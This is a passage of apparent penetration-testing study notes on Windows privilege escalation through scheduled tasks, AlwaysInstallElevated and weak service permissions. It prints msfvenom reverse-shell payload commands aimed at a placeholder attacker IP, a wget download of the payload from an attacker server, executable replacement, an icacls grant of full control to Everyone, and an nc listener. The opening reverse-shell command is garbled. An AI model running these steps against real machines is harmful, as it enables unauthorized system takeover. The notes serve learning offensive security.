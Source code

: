		- Open a reverse shell using `echo <payload-exe-file> -e cmd.exe <attack-ip> 4444 > <path-to-modifiable-exe>`.
		- Normally you would have to wait for the scheduled task to run, and not be able to run it yourself, but use `schtasks /run /tn <vuln-task>`.
- #### *AlwaysInstallElevated*
	- Windows installer files (.msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it.
	- However, these can be configured to run with higher privileges from any user account. This could potentially allow us to generate a malicious MSI file that would run with admin privileges.
	- This method requires two registry values to be set, `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer` and `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`
	- Generate a malicious MSI file using `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi`.
	- As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. After transferring the MSI file created, run the installer using `msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi` to receive the shell.
## *Service Misconfigurations*
- Windows services are managed by the Service Control Manager (SCM). The SCM is a process in charge of managing the state of services as needed, checking the current status of any given service and generally provide a way to configure services.
- Each service will have an associated executable which will be run by the SCM whenever the service starts. These service executables implement special functions to communicate with the SCM, and therefore not any executable can be started as a service successfully.
- Each service also specifies the user account under which the service will run.
- Check the service using `sc qc <service>`.
- Services have a Discretionary Access Control List (DACL), which indicates who has permissions to start, stop, pause, query status, query configuration, or reconfigure the service, amongst other privileges. The DACL can be seen through properties.
- All of the services configurations are stored on the registry under `HKLM\SYSTEM\CurrentControlSet\Services\`.
- A subkey exist for every service in the system.
- #### *Insecure Permissions on Service Executable*
	- If the executable associated with a service has weak permissions that allow the attacker to modify or replace it, the attacker can gain the privileges of the service's account easily.
	- **Steps**
		- Query the service using `sc qc <service-name>` make note of the `BINARY_PATH_NAME` which gives the path of the executable and `SERVICE_START_NAME` which shows the user that the service uses.
		- Get the permissions of the executable using `icacls <path-to-exe>`
		- Generate an exe-service payload using `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f exe-service -o rev-svc.exe`.
		- Serve the generated file using an python web server `python3 -m http.server`.
		- From the target machine, download the file using `wget http://<attacker-ip>:8000/rev-svc.exe -O rev-svc.exe`.
		- Replace the executable file with the generated payload using 
			- `move <exe-file> <exe-file>.exe.bkp`
			- `move <payload> <exe-file-name>`
			- `icacls <exe-file-name> /grant Everyone:F` to give full permissions to everyone.
		- Start a reverse listener on the attack machine using `nc -lvnp 4444`.
	- **NOTE**
		- **In PowerShell, the command `sc` is an alias for `Set-Content`, therefore use `sc.exe` to control services if you are in a PowerShell prompt**
- #### *Unquoted Service Paths*
	- When we can directly write to service executables as before, there might be a chance to force a service into running arbitrary executables.
	- When working with Windows Services, a particular behavior occurs when the service is configured to point to an "unquoted" executable. By unquoted, we mean that the path of the associated executable isn't properly quoted to account for spaces on the command.
	- For example, the executable file path `C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe` if not contained in quotation marks, could be interpreted as either of the following. ![](unquoted-service-path.png)
	- SCM tries to help the user by searching for these different interpretations by order and if any of them is found, it executes it.